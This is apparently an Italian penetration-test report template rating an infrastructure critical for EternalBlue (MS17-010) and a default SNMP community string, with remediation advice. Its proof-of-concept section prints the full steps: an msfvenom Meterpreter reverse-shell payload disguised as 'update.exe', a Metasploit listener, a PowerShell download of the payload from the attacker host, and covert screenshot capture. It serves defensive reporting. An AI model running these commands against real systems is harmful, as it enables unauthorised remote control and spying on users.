






# Executive Summary - Template

---

## 1 Panoramica del Rischio (Overall Risk Rating)

In base alle attività di Vulnerability Assessment e Penetration Testing effettuate, il livello di sicurezza complessivo dell'infrastruttura analizzata è classificato come:

# CRITICO (Critical)

Il sistema target presenta vulnerabilità obsolete (Legacy Vulnerabilities) pubblicamente note che permettono a un attaccante non autenticato di ottenere il controllo amministrativo completo del sistema. La probabilità di compromissione è Molto Alta.

| Metrica | Valutazione |
| :--- | :--- |
| Vulnerabilità Totali | 12 (stimate) |
| Critiche / Alte | 2 |
| Facilità di Attacco | Banale (Script Pubblici Disponibili) |
| Impatto Aziendale | Totale (Perdita di confidenzialità e disponibilità) |

---

## 2 Scoperte Principali (Key Findings)

Durante l'analisi sono state identificate le seguenti criticità prioritarie:

#### A. Esecuzione di Codice Remoto (EternalBlue) - Critico

È stata rilevata la presenza del protocollo SMBv1 non aggiornato. Questa configurazione espone l'azienda alla vulnerabilità EternalBlue (MS17-010).

- Impatto: Un attaccante può entrare nel sistema senza password e installare software malevolo (es. Ransomware, Spyware).
- Stato: Verificato (Exploit disponibile).

#### B. Esposizione Dati Sensibili (SNMP) - Medio

Il servizio di monitoraggio SNMP è configurato con la password di default ("public").

- Impatto: Un attaccante può mappare l'intera rete interna, elencare gli utenti e i software installati, facilitando attacchi successivi.

---

## 3 Impatto sul Business

Se queste vulnerabilità venissero sfruttate da un attore malevolo, le conseguenze per l'organizzazione includerebbero:

1. Interruzione Operativa: Blocco dei sistemi tramite Ransomware.

2. Furto di Proprietà Intellettuale: Accesso non autorizzato a documenti riservati.

3. Danno Reputazionale: Perdita di fiducia da parte dei clienti e possibili sanzioni GDPR per data breach.

---

## 4 Raccomandazioni Strategiche (Roadmap)

Si consiglia di intraprendere le seguenti azioni correttive in ordine di priorità:

1.  Immediato (Entro 24h): Applicare le patch di sicurezza Microsoft (MS17-010) su tutti i sistemi Windows. Se non possibile, disabilitare il protocollo SMBv1.

2.  Breve Termine (1 settimana): Riconfigurare il servizio SNMP modificando la community string di default o limitando l'accesso ai soli indirizzi IP di gestione.

3.  Lungo Termine: Implementare un sistema centralizzato di gestione delle patch (Patch Management) e condurre scansioni di vulnerabilità periodiche (trimestrali).

---

## 5 Dettagli Tecnici e Prove di Concetto (PoC)

In questa sezione vengono documentate le evidenze tecniche delle vulnerabilità riscontrate e la metodologia utilizzata per validare l'impatto (Exploitation).

#### 5.1 Verifica Vulnerabilità SMB (EternalBlue)

È stato utilizzato lo Scripting Engine di Nmap per interrogare il servizio SMB e verificare la mancata applicazione della patch MS17-010.

```Bash
nmap -p 445 --script smb-vuln-ms17-010 10.0.2.3
```

Spiegazione: Il comando scansiona la porta 445 (SMB) e lancia uno script specifico (`smb-vuln-ms17-010`) che invia pacchetti appositamente malformati per vedere come risponde il server, senza mandarlo in crash.

Output Ottenuto: L'output evidenzia lo stato `VULNERABLE` o fornisce dettagli sullo stato del sistema operativo che confermano la suscettibilità all'attacco.



#### 5.2 Simulazione Attacco Client-Side (Reverse Shell)

Dato il livello critico di rischio, è stato simulato uno scenario di attacco completo ("Exploitation") per dimostrare le conseguenze di una compromissione. È stato utilizzato il framework Metasploit per generare un payload, aggirare le protezioni di base e ottenere il controllo remoto.

Fase A: Creazione dell'Agente Malevolo (Payload)

È stato creato un eseguibile (`update.exe`) configurato per connettersi a ritroso verso la macchina attaccante (Reverse TCP), bypassando i firewall che bloccano solo le connessioni in entrata.

```Bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe -o update.exe
```

Fase B: Configurazione del Server di Comando e Controllo (C2)

Sulla macchina attaccante è stato configurato un "Listener" per ricevere la connessione della vittima.

```Bash
msfconsole
```



```Bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```

Fase C: Esecuzione e Compromissione

Il file è stato trasferito sulla vittima simulando un download via PowerShell (per bypassare i filtri SmartScreen del browser) ed eseguito.

Comando (Lato Vittima - PowerShell): `Invoke-WebRequest -Uri "http://10.0.2.15:8080/update.exe" -OutFile "C:\Users\Public\update.exe"`

Risultato (Sessione Meterpreter): L'esecuzione ha aperto una sessione remota stabile (`Meterpreter session 1 opened`), garantendo accesso completo al sistema.





#### 5.3 Evidenze Post-Exploitation (Proof of Impact)

Una volta ottenuto l'accesso, sono stati eseguiti comandi per dimostrare l'entità del controllo acquisito.

1. Verifica del Sistema (`sysinfo`) Conferma che l'attaccante sta operando all'interno della macchina target Windows 10.

```Bash
meterpreter > sysinfo
```

2. Identificazione Utente (`getuid`) Mostra con quali privilegi sta girando l'attacco.

```Bash
meterpreter > getuid
```

3. Violazione della Privacy (`screenshot`) È stato catturato uno screenshot del desktop dell'utente a sua insaputa, dimostrando il rischio di spionaggio industriale.

```Bash
meterpreter > screenshot
```



